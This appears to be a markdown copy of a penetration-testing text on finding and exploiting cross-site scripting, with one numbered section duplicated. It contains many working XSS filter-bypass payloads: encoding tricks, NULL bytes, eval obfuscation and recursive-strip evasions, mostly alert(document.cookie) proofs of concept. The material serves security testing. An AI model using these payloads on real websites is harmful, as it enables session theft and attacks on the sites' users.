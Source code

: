 ## Finding and Exploiting XSS Vulnerabilities

A basic approach to identifying XSS vulnerabilities is to use a standard proof-of-concept attack string such as the following:
```
“><script>alert(document.cookie)</script>
```
This string is submitted as every parameter to every page of the application, and responses are monitored for the appearance of this same string. If cases are found where the attack string appears unmodified within the response, the application is almost certainly vulnerable to XSS.

If your intention is simply to identify some instance of XSS within the application as quickly as possible to launch an attack against other application users, this basic approach is probably the most effective, because it can be easily auto- mated and produces minimal false positives. However, if your objective is to perform a comprehensive test of the application to locate as many individual vulnerabilities as possible, the basic approach needs to be supplemented with more sophisticated techniques. There are several different ways in which XSS vulnerabilities may exist within an application that will not be identified via the basic approach to detection:

- Many applications implement rudimentary blacklist-based filters in an attempt to prevent XSS attacks. These filters typically look for expressions such as <script> within request parameters and take some defensive action such as removing or encoding the expression or blocking the request. These filters often block the attack strings commonly employed in the basic approach to detection. However, just because one common attack string is being filtered, this does not mean that an exploitable vulnerability does not exist. As you will see, there are cases in which a working XSS exploit can be created without using <script> tags and even without using commonly filtered characters such as “ < > and /.
 
- The anti-XSS filters implemented within many applications are defective and can be circumvented through various means. For example, suppose that an application strips any <script> tags from user input before it is processed. This means that the attack string used in the basic approach will not be returned in any of the application’s responses. However, it may be that one or more of the following strings will bypass the filter and result in a successful XSS exploit:
 
```  
“><script >alert(document.cookie)</script >
“><ScRiPt>alert(document.cookie)</ScRiPt>
“%3e%3cscript%3ealert(document.cookie)%3c/script%3e
“><scr<script>ipt>alert(document.cookie)</scr</script>ipt>
%00“><script>alert(document.cookie)</script>
```
The first stage in the testing process is to submit a benign string to each entry point and to identify every location in the response where the string is reflected:
 
 1. Choose a unique arbitrary string that does not appear anywhere within the application and that contains only alphabetical characters and there-fore is unlikely to be affected by any XSS-specific filters. For example:

       ```myxsstestdmqlwp```

Submit this string as every parameter to every page, targeting only one parameter at a time.

 2. Monitor the application’s responses for any appearance of this same string. Make a note of every parameter whose value is being copied into the application’s response. These are not necessarily vulnerable, but each instance identified is a candidate for further investigation, as described in the next section.

 3. Note that both GET and POST requests need to be tested. You should include every parameter within both the URL query string and the message body. Although a smaller range of delivery mechanisms exists for XSS vulnerabilities that can be triggered only by a POST request, exploitation is still possible, as previously described.

 4. In any cases where XSS was found in a POST request, use the “change request method” option in Burp to determine whether the same attack could be performed as a GET request.

 5. In addition to the standard request parameters, you should test every instance in which the application processes the contents of an HTTP request header. A common XSS vulnerability arises in error messages, where items such as the Referer and User-Agent headers are copied into the message’s contents. These headers are valid vehicles for delivering a reflected XSS attack, because an attacker can use a Flash object to induce a victim to issue a request containing arbitrary HTTP headers.

 
## Identifying Reflections of User Input
The first stage in the testing process is to submit a benign string to each entry point and to identify every location in the response where the string is reflected.

1. Choose a unique arbitrary string that does not appear anywhere within the application and that contains only alphabetical characters and there-
fore is unlikely to be affected by any XSS-specific filters. For example:

     ```myxsstestdmqlwp```

  Submit this string as every parameter to every page, targeting only one parameter at a time.

2. Monitor the application’s responses for any appearance of this same string. Make a note of every parameter whose value is being copied into the application’s response. These are not necessarily vulnerable, but each instance identified is a candidate for further investigation, as described in the next section.

3. Note that both GET and POST requests need to be tested. You should include every parameter within both the URL query string and the message body. Although a smaller range of delivery mechanisms exists for XSS vulnerabilities that can be triggered only by a POST request, exploitation is still possible, as previously described.

4. In any cases where XSS was found in a POST request, use the “change request method” option in Burp to determine whether the same attack could be performed as a GET request.

5. In addition to the standard request parameters, you should test every instance in which the application processes the contents of an HTTP request header. A common XSS vulnerability arises in error messages, where items such as the Referer and User-Agent headers are copied into the message’s contents. These headers are valid vehicles for delivering a reflected XSS attack, because an attacker can use a Flash object to induce a victim to issue a request containing arbitrary HTTP headers.

## Testing Reflections to Introduce Script

You must manually investigate each instance of reflected input that you have identified to verify whether it is actually exploitable. In each location where data is reflected in the response, you need to identify the syntactic context of that data. You must find a way to modify your input such that, when it is copied into the same location in the application’s response, it results in execution of arbitrary script. Let’s look at some examples.

Example 1: A Tag Attribute Value
Suppose that the returned page contains the following:
 
```<input type=”text” name=”address1” value=”myxsstestdmqlwp”>```

One obvious way to craft an XSS exploit is to terminate the double quotation marks that enclose the attribute value, close the <input> tag, and then employ some means of introducing JavaScript, such as a <script> tag. For example:

 ```“><script>alert(1)</script>```

An alternative method in this situation, which may bypass certain input filters, is to remain within the <input> tag itself but inject an event handler containing JavaScript. For example:
 
```“ onfocus=”alert(1)```
 
## Probing Defense Filters

Very often, you will discover that the server modifies your initial attempted exploits in some way, so they do not succeed in executing your injected script. 
 
If this happens, do not give up! Your next task is to determine what server-side processing is occurring that is affecting your input. There are three broad possibilities:

 - The application (or a web application firewall protecting the application) has identified an attack signature and has blocked your input.

 - The application has accepted your input but has performed some kind of sanitization or encoding on the attack string.

 - The application has truncated your attack string to a fixed maximum length. We will look at each scenario in turn and discuss various ways in which the obstacles presented by the application’s processing can be bypassed.

## Beating Signature-Based Filters
 
 In the first type of filter, the application typically responds to your attack string
with an entirely different response than it did for the harmless string. For
example, it might respond with an error message, possibly even stating that a
possible XSS attack was detected, as shown in Figure 12-8.
 
 If this occurs, the next step is to determine what characters or expressions within your input are triggering the filter. An effective approach is to remove different parts of your string in turn and see whether the input is still being blocked. Typically, this process establishes fairly quickly that a specific expression such as <script> is causing the request to be blocked. You then need to test the filter to establish whether any bypasses exist. There are so many different ways to introduce script code into HTML pages that signature-based filters normally can be bypassed. You can find an alternative means of introducing script, or you can use slightly malformed syntax that browsers tolerate. This section examines the numerous different methods of executing scripts. Then it describes a wide range of techniques that can be used to bypass common filters.
 
 ## Bypassing Filters:HTML
 
Starting with the opening tag name, the most simple and naïve filters can be bypassed simply by varying the case of the characters used:

 ```<iMg onerror=alert(1) src=a>```

Going further, you can insert NULL bytes at any position:
```
<[%00]img onerror=alert(1) src=a>
<i[%00]mg onerror=alert(1) src=a>
```
(In these examples, [%XX] indicates the literal character with the hexadecimal ASCII code of XX. When submitting your attack to the application, generally you would use the URL-encoded form of the character. When reviewing the application’s response, you need to look for the literal decoded character being reflected.)

 **TIP** The NULL byte trick works on Internet Explorer anywhere within the HTML page. Liberal use of NULL bytes in XSS attacks often provides a quick way to bypass signature-based filters that are unaware of IE’s behavior. Using NULL bytes has historically proven effective against web application firewalls (WAFs) configured to block requests containing known attack strings. Because WAFs typically are written in native code for performance reasons, a NULL byte terminates the string in which it appears. This prevents the WAF from seeing the malicious payload that comes after the NULL (see Chapter 16 for more details)
 
**Space Following the Tag Name**

 Several characters can replace the space between the tag name and the first attribute name:
``` 
<img/onerror=alert(1) src=a>
<img[%09]onerror=alert(1) src=a>
<img[%0d]onerror=alert(1) src=a>
<img[%0a]onerror=alert(1) src=a>
<img/”onerror=alert(1) src=a>
<img/’onerror=alert(1) src=a>
<img/anyjunk/onerror=alert(1) src=a>
```
Note that even where an attack does not require any tag attributes, you should always try adding some superfluous content after the tag name, because this bypasses some simple filters:

 ```<script/anyjunk>alert(1)</script>```
 
**Attribute Values**
 
Within attribute values themselves, you can use the NULL byte trick, and you also can HTML-encode characters within the value:
 
```
<img onerror=a[%00]lert(1) src=a>
<img onerror=a&#x6c;ert(1) src=a>
```
Because the browser HTML-decodes the attribute value before processing it further, you can use HTML encoding to obfuscate your use of script code, thereby evading many filters. For example, the following attack bypasses many filters seeking to block use of the JavaScript pseudo-protocol handler:

 ```<iframe src=j&#x61;vasc&#x72ipt&#x3a;alert&#x28;1&#x29; >```

 When using HTML encoding, it is worth noting that browsers tolerate various deviations from the specifications, in ways that even filters that are aware of HTML encoding issues may overlook. You can use both decimal and hexa-decimal format, add superfluous leading zeros, and omit the trailing semicolon.

The following examples all work on at least one browser:
```
<img onerror=a&#x06c;ert(1) src=a>
<img onerror=a&#x006c;ert(1) src=a>
<img onerror=a&#x0006c;ert(1) src=a>
<img onerror=a&#108;ert(1) src=a>
<img onerror=a&#0108;ert(1) src=a>
<img onerror=a&#108ert(1) src=a>
<img onerror=a&#0108ert(1) src=a>
```
 
**Tag Brackets**

In some situations, by exploiting quirky application or browser behavior, it is possible to use invalid tag brackets and still cause the browser to process the tag in the way the attack requires.

Some applications perform a superfluous URL decode of input after their input filters have been applied, so the following input appearing in a request:

 ```%253cimg%20onerror=alert(1)%20src=a%253e```

is URL-decoded by the application server and passed to the application as:

 ```%3cimg onerror=alert(1) src=a%3e```
 
which does not contain any tag brackets and therefore is not blocked by the input filter. However, the application then performs a second URL decode, so
the input becomes:
 
```<img onerror=alert(1) src=a>```
 
which is echoed to the user, causing the attack to execute.

**Glyphs**
 
As described in Chapter 2, something similar can happen when an application framework “translates” unusual Unicode characters into their nearest ASCII
equivalents based on the similarity of their glyphs or phonetics. For example, the following input uses Unicode double-angle quotation marks (%u00AB and
%u00BB) instead of tag brackets:
 
```«img onerror=alert(1) src=a»```
 
The application’s input fi lters may allow this input because it does not contain any problematic HTML. However, if the application framework translates the quotation marks into tag characters at the point where the input is inserted into a response, the attack succeeds. Numerous applications have been found vulnerable to this kind of attack, which developers may be forgiven for overlooking.
 
Some input filters identify HTML tags by simply matching opening and closing angle brackets, extracting the contents, and comparing this to a blacklist
of tag names. In this situation, you may be able to bypass the filter by using superfluous brackets, which the browser tolerates:

 ```<<script>alert(1);//<</script>```

In some cases, unexpected behavior in browsers’ HTML parsers can be leveraged to deliver an attack that bypasses an application’s input filters. For example, the following HTML, which uses ECMAScript for XML (E4X) syntax, does not contain a valid opening script tag but nevertheless executes the enclosed script on current versions of Firefox:

 ```<script<{alert(1)}/></script>```
 
TIP In several of the filter bypasses described, the attack results in HTML that is malformed but is nevertheless tolerated by the client browser. Because numerous quite legitimate websites contain HTML that does not strictly comply to the standards, browsers accept HTML that is deviant in all kinds of ways. They effectively fix the errors behind the scenes before the page is rendered. Often, when you are trying to fine-tune an attack in an unusual situation, it can be helpful to view the virtual HTML that the browser constructs out of the server’s actual response. In Firefox, you can use the WebDeveloper tool, which contains a View Generated Source function that performs precisely this task.

 **Character Sets**

 In some situations, you can employ a powerful means of bypassing many types of filters by causing the application to accept a nonstandard encoding of your attack payload. The following examples show some representations of the string 
 
 ```<script>alert(document.cookie)</script>``` 
 
in alternative character sets:

**UTF-7**
 
```
+ADw-script+AD4-alert(document.cookie)+ADw-/script+AD4-
```
 
**US-ASCII**
 
```
BC 73 63 72 69 70 74 BE 61 6C 65 72 74 28 64 6F ; ¼script¾alert(do
63 75 6D 65 6E 74 2E 63 6F 6F 6B 69 65 29 BC 2F ; cument.cookie)¼/
73 63 72 69 70 74 BE ; script¾
```

**UTF-16**
 
```
FF FE 3C 00 73 00 63 00 72 00 69 00 70 00 74 00 ; ÿþ<.s.c.r.i.p.t.
3E 00 61 00 6C 00 65 00 72 00 74 00 28 00 64 00 ; >.a.l.e.r.t.(.d.
6F 00 63 00 75 00 6D 00 65 00 6E 00 74 00 2E 00 ; o.c.u.m.e.n.t...
63 00 6F 00 6F 00 6B 00 69 00 65 00 29 00 3C 00 ; c.o.o.k.i.e.).<.
2F 00 73 00 63 00 72 00 69 00 70 00 74 00 3E 00 ; /.s.c.r.i.p.t.>. 
``` 
 
**Using JavaScript Escaping**
 
JavaScript allows various kinds of character escaping, which you can use to avoid including required expressions in their literal form. Unicode escapes can be used to represent characters within JavaScript keywords, allowing you to bypass many kinds of filters:
 
```
<script>a\u006cert(1);</script>
```

If you can make use of the ```eval``` command, possibly by using the preceding technique to escape some of its characters, you can execute other commands by passing them to the ```eval``` command in string form. This allows you to use various string manipulation techniques to hide the command you are executing. Within JavaScript strings, you can use Unicode escapes, hexadecimal escapes, and octal escapes:

```
<script>eval(‘a\u006cert(1)’);</script>
<script>eval(‘a\x6cert(1)’);</script>
<script>eval(‘a\154ert(1)’);</script>
```

Furthermore, superfluous escape characters within strings are ignored:

```
<script>eval(‘a\l\ert\(1\)’);</script>
```

**Dynamically Constructing Strings**

You can use other techniques to dynamically construct strings to use in your attacks:

```
<script>eval(‘al’+’ert(1)’);</script>
<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41));</script>
<script>eval(atob(‘amF2YXNjcmlwdDphbGVydCgxKQ’));</script>
```

The final example, which works on Firefox, allows you to decode a Base64-encoded command before passing it to ```eval```
 
**Alternatives to eval**

If direct calls to the eval command are not possible, you have other ways to execute commands in string form:
 
```
<script>’alert(1)’.replace(/.+/,eval)</script>
<script>function::[‘alert’](1)</script>
```

**Alternatives to Dots**

If the dot character is being blocked, you can use other methods to perform dereferences:

```
<script>alert(document[‘cookie’])</script>
<script>with(document)alert(cookie)</script>
```
 
**Combining Multiple Techniques**

The techniques described so far can often be used in combination to apply several layers of obfuscation to your attack. Furthermore, in cases where JavaScript is being used within an HTML tag attribute (via an event handler, scripting pseudo-protocol, or dynamically evaluated style), you can combine these techniques with HTML encoding. The browser HTML-decodes the tag attribute value before the JavaScript it contains is interpreted. In the following example, the “e” character in “alert” has been escaped using Unicode escaping, and the backslash used in the Unicode escape has been HTML-encoded:

```
<img onerror=eval(‘al&#x5c;u0065rt(1)’) src=a>
```

Of course, any of the other characters within the onerror attribute value could also be HTML-encoded to further hide the attack:

```
<img onerror=&#x65;&#x76;&#x61;&#x6c;&#x28;&#x27;al&#x5c;u0065rt&#x28;1&
#x29;&#x27;&#x29; src=a>
```

This technique enables you to bypass many filters on JavaScript code, because you can avoid using any JavaScript keywords or other syntax such as quotes, periods, and brackets
 
**Using Encoded Scripts**

On Internet Explorer, you can use Microsoft’s custom script-encoding algorithm to hide the contents of scripts and potentially bypass some input filters:

```
<img onerror=”VBScript.Encode:#@~^CAAAAA==\ko$K6,FoQIAAA==^#~@” src=a>
<img language=”JScript.Encode” onerror=”#@~^CAAAAA==C^+.D`8#mgIAAA==^#~@” src=a>
```
This encoding was originally designed to prevent users from inspecting client-side scripts easily by viewing the source code for the HTML page. It has since been reverse-engineered, and numerous tools and websites will let you decode encoded scripts. You can encode your own scripts for use in attacks via Microsoft’s command-line utility srcenc in older versions of Windows.
 
**Beating Sanitization** 
 
When you encounter this defense, your first step is to determine precisely which characters and expressions are being sanitized, and whether it is still possible to carry out an attack without directly employing these characters and expressions. For example, if your data is being inserted directly into an existing script, you may not need to employ any HTML tag characters. Or, if the application is removing <script> tags from your input, you may be able to use a different tag with a suitable event handler. Here, you should consider all the techniques already discussed for dealing with signature-based filters, including using layers of encoding, NULL bytes, nonstandard syntax, and obfuscated script code. By modifying your input in the various ways described, you may be able to devise an attack that does not contain any of the characters or expressions that the filter is sanitizing and therefore successfully bypass it. If it appears impossible to perform an attack without using input that is being sanitized, you need to test the effectiveness of the sanitizing filter to establish whether any bypasses exist.

 
 As described in Chapter 2, several mistakes often appear in sanitizing filters. Some string manipulation APIs contain methods to replace only the first instance of a matched expression, and these are sometimes easily confused with methods that replace all instances. So if <script> is being stripped from your input, you should try the following to check whether all instances are being removed:
 
```
<script><script>alert(1)</script>
```
 
In this situation, you should also check whether the sanitization is being performed recursively:

```
<scr<script>ipt>alert(1)</script>
```

Furthermore, if the filter performs several sanitizing steps on your input, you should check whether the order or interplay between these can be exploited.
For example, if the filter strips ```<script>``` recursively and then strips ```<object>``` recursively, the following attack may succeed:

```
<scr<object>ipt>alert(1)</script>
```

 
 
References: https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwim7cD06oL5AhWZk4kEHcDGAzMQFnoECAYQAQ&url=http%3A%2F%2Fwww.xss-payloads.com%2F&usg=AOvVaw1-hKbfrHEIcldlShn1bjoC
